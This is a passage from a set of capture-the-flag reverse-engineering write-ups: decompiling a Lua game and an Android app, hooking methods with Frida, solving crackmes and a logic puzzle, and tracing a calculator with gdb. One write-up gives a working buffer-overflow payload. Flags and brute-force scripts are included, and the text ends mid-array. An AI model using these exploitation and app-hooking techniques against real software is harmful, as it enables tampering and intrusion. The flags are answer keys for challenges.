    [https://drive.google.com/file/d/178tX04tMl22juanqyjPXZ4uPqBni1Z4s/view?usp=drive_link](https://drive.google.com/file/d/178tX04tMl22juanqyjPXZ4uPqBni1Z4s/view?usp=drive_link)
    
2. **Analyze the Game Files:**
    
    Dig into the game's APK to locate the key used for encryption. You may need to decompile the APK and inspect the code to find where the key is stored or generated.
    
3. **Identify the Encrypted Flag:**
    
    Find the encryption key within the game files or the game's runtime data. This key will be key to decrypt flag that has been encrypted using the AES protocol.
    
4. **Decrypt the Flag:**
    
    Once you have both the key and the encrypted text, use AES decryption to reveal the flag.
    

**Encrypted Flag**:

```
J8A+5LQD1tyqWUE4X4BmMaJWMxM1XLHxQ9eCbWpafJk=
```

Submit the decrypted flag to complete the challenge. Good luck !

**Step 1: Unpacking the Game Resources**

The provided file, `resource.car`, contains the compiled assets of the game. To access the contents, you will need to unpack this file using the **corona-archiver** tool. This tool is available on GitHub and can be accessed via the following link:

- **GitHub Repository**: [corona-archiver](https://github.com/0BuRner/corona-archiver)

```bash
Clone the repository:
git clonehttps://github.com/0BuRner/corona-archiver.git
cd corona-archiver
./corona-archiver resource.car
```

**Step 2: Decompiling the Lua Files**

After unpacking, the next step is to decompile the Lua files to examine their code. You will need to use unluac, a tool for decompiling Lua bytecode. You can download it from SourceForge:

- **Download Link**: [unluac](https://sourceforge.net/projects/unluac/)

**Step 3: Finding the Key**

Within the decompiled Lua files, locate the main function. Inside this function, there are two keys. You will need to determine which of these keys is the correct one. Carefully analyze the logic in the Lua script to find the correct key.

**Flag**

`uctf{M4u50l3um_0f_B4b4_T4h3r}`

### **Problem - 20 : ( Travel Guide )**

Embark on a digital journey to a hidden destination in Iran. Uncover the secrets within the app and find your way to the true path. Will you navigate the unknown, or remain lost forever?(Min android version : 9)

[https://drive.google.com/file/d/1EoG25VHpGQjlAJauWgeI4nfZ8uF6d_fe/view?usp=drive_link](https://drive.google.com/file/d/1EoG25VHpGQjlAJauWgeI4nfZ8uF6d_fe/view?usp=drive_link)

Solution :

[https://drive.google.com/file/d/1D0ampHnjRlU7SM1-3f6V9yUHV-VLXndO/view?usp=drive_link](https://drive.google.com/file/d/1D0ampHnjRlU7SM1-3f6V9yUHV-VLXndO/view?usp=drive_link)

When start application in the first page of application there is button which user need to click to go to next activity.


When click on this button , an activity loaded which state that you travel to wrong place.


If you decompile apk with `jadx` and realize the AndroidManifest.xml file in resource and look for UnknownActivity you see that, there is nothing exists in this activity so

we focus on launcher activity which is WorldActivity.


In this activity when flight button clicked , it tries to launch IranActivity but as we see in the application it launches unknown activity.

If we pay attention to manifest again, we see that there is appcomponentfactory attribute in application tag which has

`com.uuctf.travelmanager.Meta` value so it may the place this changes happen.


After we open `com.uuctf.travelmanager.Meta` class in jadx, we see that in `instantiateActivity` method it check that

when an activity contain `Iran`, it return UnknownActivity, so we find the cause.


For solving this issue we have muliple ways, we can decompile the apk with `apktool` and delete this part of smali code or

we can use frida to hook this method.We go with second approach.

For hooking this method we write a js script like following which hook `instantiateActivity` and check if the activity class name

is equalls with iran activity then make an instance of this activity and return it.


Then we need to run app with following shell command using adb:


Now when we press on flight button we go to iran Activity.


In this activity user asked to enter account id and there is only on button which when clicked a timer appear and

after 5 seconds it disappear.

Looking for source code of this button click shows that when we press this button shortly it adds zero to array and one when

press for long time.So it seems that it's a morse code.


Now if look carefully we see that we have timer which implemented by `CountDownTimer` and at finish stage it check entered morse code

with native method called `CheckCode`.


So we should have a so file which this method should exists in it.There is travel so file so we are going to

decompile it using `ghidra` to find the `CheckCode` and see can we find morse code.

After decompiling the so file we see that in some part of checkCode function it compare array values with global values

like `DAT_000539ac` and if we look at .data part of decompiled code we see that these values asigned there.


We see that `codeArr` array asigned with hexadecimal values which if we convert them to decimal it

should be `{0, 0, 1, 0, 1, 1, 0}`.So it seems that we find our morse code.

After Entering morse code we see that it shows a dialog which contains flag.

Remember in process of calculating flag , it uses apk signature, so if you decompile the apk and resign it you should hook the

`getAppSignature` method using frida and return the main signature of apk.

You can get the main signature of apk by installing it in phone and retrieve the signature using another apk.


**Flag**

`uctf{hafez_poetry_A6C8E2G4IH}`

### **Problem - 21 : ( REVNG ) UrmiaCTF**

Numbers hide what words cannot reveal. Can you uncover the secret encoded within them? Investigate carefully; the answer lies deep within the sequence.

Solution :

**Flag**

`UCTF{S33D1N6_Th3_PRNG_F0r_FUN_In_Urm14!!!}`

### **Problem - 22 : ( baby-rev )**

[https://drive.google.com/file/d/1E0OQtGkYsdub9a6fYxeIKr9Me--HJQBL/view?usp=drive_link](https://drive.google.com/file/d/1E0OQtGkYsdub9a6fYxeIKr9Me--HJQBL/view?usp=drive_link)

Solution :

After analyzing the source code in “ dog bolt decompiler “ we understand its a classic bruteforce guess crack me problem  . In that there was a func named “myfunc()” which was called through the main func and that function was doing the main logic . We gave that logic to chatgpt and tell to make an iterative bruteforce method to crack that each if loop conditions serially .

myfunc logic in “ binary ninja ” →

```bash
int64_t myfunc(char* arg1)

    if (*arg1 != 0x42)
        return puts(str: ":PP\n")
    
    char result = arg1[4]
    
    if (result == 0x43)
        result = arg1[0xd]
        
        if (result == 0x6d)
            result = arg1[0x13]
            
            if (result == 0x72)
                result = arg1[3]
                
                if (result == 0x53)
                    result = arg1[0xa]
                    
                    if (result == 0x6c)
                        result = arg1[2]
                        
                        if (result == 0x54)
                            result = arg1[0xe]
                            
                            if (result == 0x65)
                                result = arg1[0x11]
                                
                                if (result == 0x30)
                                    result = arg1[0x16]
                                    
                                    if (result == 0x7d)
                                        result = arg1[7]
                                        
                                        if (result == 0x7b)
                                            result = arg1[5]
                                            
                                            if (result == 0x54)
                                                result = arg1[0xf]
                                                
                                                if (result == 0x5f)
                                                    result = arg1[1]
                                                    
                                                    if (result == 0x49)
                                                        result = arg1[0x15]
                                                        
                                                        if (result == 0x76)
                                                            result = arg1[8]
                                                            
                                                            if (result == 0x77)
                                                                result = arg1[0xb]
                                                                
                                                                if (result == 0x63)
                                                                    result = arg1[6]
                                                                    
                                                                    if (result == 0x46)
                                                                        result = arg1[0x14]
                                                                        
                                                                        if (result == 0x33)
                                                                            result = arg1[9]
                                                                            
                                                                            if (result == 0x33)
                                                                                result = arg1[0xc]
                                                                                
                                                                                if (result == 0x30)
                                                                                    result = arg1[0x10]
                                                                                    
                                                                                    if (result == 0x74)
                                                                                        result = arg1[0x12]
                                                                                        
                                                                                        if (result == 0x5f)
                                                                                            return puts(str: "Yippee :3\n")
    
    return result

```

the ultimate Chatgpt code →

```python
import string

def check_logic_partial(input_string):
    # Conditions mapped by index
    conditions = {
        0: 'B',
        4: 'C',
        13: 'm',
        19: 'r',
        3: 'S',
        10: 'l',
        2: 'T',
        14: 'e',
        17: '0',
        22: '}',
        7: '{',
        5: 'T',
        15: '_',
        1: 'I',
        21: 'v',
        8: 'w',
        11: 'c',
        6: 'F',
        20: '3',
        9: '3',
        12: '0',
        16: 't',
        18: '_'
    }

    input_length = 23
    input_string = list(input_string)  # Mutable list for modifying characters
    
    for index, required_char in conditions.items():
        for char in string.printable:
            input_string[index] = char
            if char == required_char:  # Check only the current condition
                break  # Move to the next condition when satisfied

    return ''.join(input_string)

if __name__ == "__main__":
    input_length = 23  # Length of the input
    # Initialize with dummy characters
    cracked_input = [' '] * input_length
    cracked_input = check_logic_partial(cracked_input)
    print(f"Cracked input: {cracked_input}")

```

Flag → BITSCTF{w3lc0me_t0_r3v}

### **Problem - 23 :**

**Are you a 1 or a... leetcode?**

[https://drive.google.com/file/d/1QHDkB2eH8RI77UD7t8esVOrs-vo8TycN/view?usp=drive_link](https://drive.google.com/file/d/1QHDkB2eH8RI77UD7t8esVOrs-vo8TycN/view?usp=drive_link)

Solution :

This challenge is kinda a continuation to the last 'Are you a 1 or a 0?' challenge. It involves buffer overflow again, but this time there is a slight difference. If we try to run the binary again and overflow the buffer again, we see this :

```
>>> ./self_destruct_initiator_2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Nice try, but not quite.
Try again, you got 0x00000000
```

Alright, lets try increasing the amount of A's by one :

```
>>> ./self_destruct_initiator_2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Nice try, but not quite.
Try again, you got 0x00000041
```

Hmm..the binary appears to read bytes coming after the overflow. Lets look at this part of the source code :

```
if (security_check == 0x1337C0D3)
    {
        printf("FLAG\n");
    }
    else
    {
        printf("Nice try, but not quite.\nTry again, you got 0x%08x\n", security_check);
    }
```

So, the bytes after the overflow are being stored in the security_check variable. We need the value for that variable be "0x1337C0D3". But since these bytes are non-printable, we have the [echo](https://www.howtogeek.com/446071/how-to-use-the-echo-command-on-linux/) command, to print them.

Also, since difference in [endianness](https://en.wikipedia.org/wiki/Endianness) , we need to input the hex bytes after overflow in the reverse order. That is '0xd3' comes first then '0xc0' and so on. But since we need to input the characters as command line arguement and some of the hex bytes are non printable, we'll make use of echo command and add "`" marker before and after our command to use of its output in our command line. This can be done as:

```
>>>./self_destruct_initiator_2 `echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd3\xc0\x37\x13"`

You're Pretty Good!
░█▀▄░█▀▀░█▀▄░█▀█░█▀▀░▀█▀░█▀▀░█▀▄
░█▀▄░█▀▀░█░█░█▀█░█░░░░█░░█▀▀░█░█
░▀░▀░▀▀▀░▀▀░░▀░▀░▀▀▀░░▀░░▀▀▀░▀▀░
```

Note : Make sure, you use the '-e' flag as above when using echo, to allow it to print all hex chars as ASCII

Voila, flag!

### **Problem - 24 : ( Loose Strings )**

[https://drive.google.com/file/d/1dsyN6WtY5bDTd1_3PTtcFI-9cimQZdFr/view?usp=drive_link](https://drive.google.com/file/d/1dsyN6WtY5bDTd1_3PTtcFI-9cimQZdFr/view?usp=drive_link)

Solution :

This challenge provides us with a binary and asks us to reverse engineer it to get the source code. Not exactly, but yeah, kinda. On running the binary we see :

```
>>> ./loose_strings

please enter username and password
format is ./filename <username> <password>
```

We need to find the username and password. Cool! h4xx0r mode on.

To find the username and the password, just use grep. [grep](https://phoenixnap.com/kb/grep-command-linux-unix-examples) is a CLI tool which can search for a string or its pattern in a bigger file.

We search for username and password and find :

```
>>>strings loose_strings | grep "username"

***************** The username is <REDACTED_USER> and the password is <REDACTED_PASS> *****************
please enter username and password
format is ./filename <username> <password>
incorrect username or password
```

The strings command used above returns all the human readable strings in a binary file.

Since the format to run the binary is given, we run :


To get our flag!!

### **Problem - 25 : ( The Jhonsons )**

Please socialize with the Johnson’s and get off your phone. You might be quizzed on it!

```bash
nc babyrevjohnson.chal.irisc.tf 10002
```

[babyrevjohnson.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/babyrevjohnson.tar.gz)

[https://drive.google.com/file/d/1P9Mo0riDFtM3LoOSzO9NHw-T3adc_3qg/view?usp=drive_link](https://drive.google.com/file/d/1P9Mo0riDFtM3LoOSzO9NHw-T3adc_3qg/view?usp=drive_link)

Solution :

In this binary it will demand to give you the correct chronological order of the color and food according to its inner logic . 

```bash
void check(void)

{
  byte bVar1;
  bool bVar2;
  
  if ((DAT_001040a8 == 2) || (DAT_001040ac == 2)) {
    bVar2 = false;
  }
  else {
    bVar2 = true;
  }
  if ((chosenColors == 3) || (DAT_00104094 == 3)) {
    bVar1 = 0;
  }
  else {
    bVar1 = 1;
  }
  if (DAT_0010409c == 2 &&
      (DAT_00104098 != 4 &&
      (DAT_001040ac != 3 && (chosenFoods == 4 && (bool)((DAT_00104094 != 1 && bVar2) & bVar1))))) {
    puts("Correct!");
    system("cat flag.txt");
  }
  else {
    puts("Incorrect.");
  }
  return;
}
```

variables end with last 2nd digit as 9 those are colors and a will be food . According to this check functions condition we have to determine the logic . This updated variable name will be helpful for clear understand →

```cpp
void check(void)

{
  bool bool1;
  byte bool2;
  
  if ((food3 == 2) || (food4 == 2)) {
    bool1 = false;
  }
  else {
    bool1 = true;
  }
  if ((color1 == 3) || (color2 == 3)) {
    bool2 = 0;
  }
  else {
    bool2 = 1;
  }
  if (color4 == 2 &&
      (color3 != 4 && (food4 != 3 && (food1 == 4 && (bool)((color2 != 1 && bool1) & bool2))))) {
    puts("Correct!");
    system("cat flag.txt");
  }
  else {
    puts("Incorrect.");
  }
  return;
}
```

From this, we can very easily outline certain constraints based on the `check()` function. See below, where `=` represents the correct one, while `!` represents what it cannot be.

```
Constraints:
            1   2   3   4 ( condition )
    colors
        1   =       !
        2   !       !   =
        3           =   !
        4       =
    foods
        1               =
        2       =
        3       !   =
        4   =   !   !
```

Therefore, these are the following orders:

Colors: 1 4 3 2 ==> red yellow green blue

Foods: 4 2 3 1 ==> chicken pasta steak pizza

Connect to the service and send the input to get the flag!

```
irisctf{m0r3_th4n_0n3_l0g1c_puzzl3_h3r3}
```

Or You can do bruteforce of all possible combinations to get the ultimate correct order →

From Chatgpt ,

```python
import itertools
import subprocess

# Define the available colors and foods
colors = ["red", "green", "blue", "yellow"]
foods = ["pizza", "pasta", "steak", "chicken"]

# Generate all unique permutations for colors and foods
color_combinations = list(itertools.permutations(colors, 4))
food_combinations = list(itertools.permutations(foods, 4))

# Define family members
members = ["Alice", "Emma", "James", "William"]

def run_main(colors, foods):
    """
    Execute the `./main` program with the given colors and foods input.
    """
    process = subprocess.Popen(
        ["./main"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True
    )
    # Prepare the input for the program
    inputs = ""
    for i, member in enumerate(members):
        inputs += f"{colors[i]}\n"
    for i, member in enumerate(members):
        inputs += f"{foods[i]}\n"
    
    # Send inputs to the program and capture output
    stdout, _ = process.communicate(input=inputs)
    return stdout

# Bruteforce all combinations
for color_comb in color_combinations:
    for food_comb in food_combinations:
        output = run_main(color_comb, food_comb)
        if "Correct!" in output:
            print("Correct combination found!")
            print(f"Colors: {dict(zip(members, color_comb))}")
            print(f"Foods: {dict(zip(members, food_comb))}")
            print("Flag:", output.split("\n")[-2])  # Assuming flag is printed on the second last line
            exit()

print("No correct combination found.")
```


### **Problem - 26 : ( Fast Calculator )**

Check out our new super fast calculator!

[https://drive.google.com/file/d/14wDm-Q4rnZjZg2WqOe4oBvXSkR_GWL_6/view?usp=drive_link](https://drive.google.com/file/d/14wDm-Q4rnZjZg2WqOe4oBvXSkR_GWL_6/view?usp=drive_link)

Solution :

We are provided with a binary that when running prompts simple arithmetic input. Opening in IDA and decompile it, we get to see that the first part of the main logic is essentially scanning our input operation and perform a `calculate` with `+`, `-`, `*`, `/`, `%` or `^`.


The check on `while ( v76 != 8573.8567 )` means our result is supposed to match this number. We can quickly plug in a few possible inputs and observe the output from the calculator.

```python
$ ./calc 
Welcome to the fastest, most optimized calculator ever!
Example usage:
  Add:       1 + 2
  Subtract:  10 - 24
  Multiply:  34 * 8
  Divide:    20 / 3
  Modulo:    60 % 9
  Exponent:  2 ^ 12

If you enter the correct secret operation, I might decrypt the flag for you! ^-^

Enter your operation: 85738567 / 10000
Result: 8573.856700

Correct! Attempting to decrypt the flag...
I calculated 368 operations, tested each result in the gauntlet, and flipped 119 bits in the encrypted flag!
Here is your decrypted flag:

uiuctf{This is a fake flag. You are too fast!}

Enter your operation: 8573.8567 ^ 1
Result: 8573.856700

Correct! Attempting to decrypt the flag...
I calculated 368 operations, tested each result in the gauntlet, and flipped 119 bits in the encrypted flag!
Here is your decrypted flag:

uiuctf{This is a fake flag. You are too fast!}

Enter your operation: 8573 + 0.8567
Result: 8573.856700

Correct! Attempting to decrypt the flag...
I calculated 368 operations, tested each result in the gauntlet, and flipped 119 bits in the encrypted flag!
Here is your decrypted flag:

uiuctf{This is a fake flag. You are too fast!}
```

Alright, seems we are always getting the same fake flag regardless of input. Let’s read on in the decompiled code.

```python
puts("\nCorrect! Attempting to decrypt the flag...", &v65, v23, v24);
v68 = v61 - 1LL;
v41 = 16 * ((v61 + 15LL) / 0x10uLL);
while ( &v54 != (__int64 *)((char *)&v54 - (v41 & 0xFFFFFFFFFFFFF000LL)) )
    ;
v42 = alloca(v41 & 0xFFF);
if ( (v41 & 0xFFF) != 0 )
    *(__int64 *)((char *)&v54 + (v41 & 0xFFF) - 8) = *(__int64 *)((char *)&v54 + (v41 & 0xFFF) - 8);
v69 = &v54;
v43 = v74;
j_memcpy(&v54, v74, v61);
v59 = 0;
for ( i = 0; i < (int)v62; ++i )
{
    v47 = calculate((unsigned int)&v54, (_DWORD)v43, i, v44, v45, v46, v73[3 * i], v73[3 * i + 1], v73[3 * i + 2]);
    if ( (unsigned __int8)gauntlet(v47) )
    {
        v63 = i / 8;
        v64 = i % 8;
        LODWORD(v43) = 1 << (7 - i % 8);
        v44 = (unsigned int)v43 ^ *((unsigned __int8 *)v69 + i / 8);
        *((_BYTE *)v69 + v63) ^= 1 << (7 - i % 8);
        ++v59;
    }
}
v3 = (__int64 *)v62;
printf(
    (unsigned int)"I calculated %d operations, tested each result in the gauntlet, and flipped %d bits in the encrypted flag!\n",
    v62,
    v59,
    v44,
    v45,
    v46);
puts("Here is your decrypted flag:\n", v3, v48, v49);
LODWORD(v3) = (_DWORD)v69;
printf((unsigned int)"%s\n\n", (_DWORD)v69, v50, v51, v52, v53);
```

The part before `for ( i = 0; i < (int)v62; ++i )` seems to be some random buffer copying and I don’t really know what they are for, also they are not related with main program logic, so let’s skip them for now. In the next part:

```python
for ( i = 0; i < (int)v62; ++i )
{
    v47 = calculate((unsigned int)&v54, (_DWORD)v43, i, v44, v45, v46, v73[3 * i], v73[3 * i + 1], v73[3 * i + 2]);
    if ( (unsigned __int8)gauntlet(v47) )
    {
        v63 = i / 8;
        v64 = i % 8;
        LODWORD(v43) = 1 << (7 - i % 8);
        v44 = (unsigned int)v43 ^ *((unsigned __int8 *)v69 + i / 8);
        *((_BYTE *)v69 + v63) ^= 1 << (7 - i % 8);
        ++v59;
    }
}
```

There is a big byte array `v73[1104]`. IDA decompiles it badly, but from what we knew before, `v73` is what stores the number input and operation. (`v62 = 368` and `1104 = 3 * 368`). If `gauntlet` returns true, we do some bit flip (As indicated in printed text too). Otherwise noop for current iteration. `gauntlet` looks like a function to check if the result is negative, NaN or infinity.

```python
_BOOL8 __fastcall gauntlet(double a1)
{
  return (unsigned __int8)isNegative(a1) || (unsigned __int8)isNotNumber(a1) || (unsigned __int8)isInfinity(a1);
}
```

In the end, it simply prints “I calculated 368 operations, tested each result in the gauntlet, and flipped 119 bits in the encrypted flag!” and shows the fake flag. At this point, seems we already gone through the (simple) logic of the entire calculator!

**Deeper analysis (and the rabbit hole)**

At this stage I had no clue how to continue, so I also asked teammate for some insight, who suggested to hook the function and see what are being produced by `gauntlet`. Turns out bit flipping is determined by these bits:

```python
0, 0, 1, 1, 1, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 1, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 1, 0, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 1, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 1, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 1, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 0, 1, 0, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0
```

To make sure each run, regardless of operator, produces the same bits, we used pwndbg to confirm:


After that run it will automatically go to the gauntlet function when it will be called .


Now , hook gauntlet to monitor its output the hook report will be written by default in the “gdb.txt” file .

```
gef➤  set logging on
gef➤  define hook-stop
> x/50bx $rsp   # Automatically print memory after a breakpoint
> end
```

Then, continue running:

```
gef➤  continue
```

This method will log the function’s effects on memory. Press “ni” till the gauntlet function is not return . After returning check the “gdb.txt” or, just give “ x/50bx $rsp ” to see the return time result only in the terminal .


This matches the encoded bytes here:

```python
v71 = 0x10EEB90001E1C34BLL;                   // these are the encoded bytes
v72 = 0xCB382178A4F04BEELL;
v73 = 0xE84683CE6B212AEALL;
v74 = 0xA0F5CF092C8CA741LL;
v75 = 0x20A92860082772A1LL;
v76 = 900445030;
v77 = 0xE9A4;
```

So now we can actually write a Python program that matches the binary’s behaviour.

```python
bit_arr = [0, 0, 1, 1, 1, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 1, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 1, 0, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 1, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 1, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 1, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 0, 1, 0, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 0, 0, 1, 0, 0, 0, 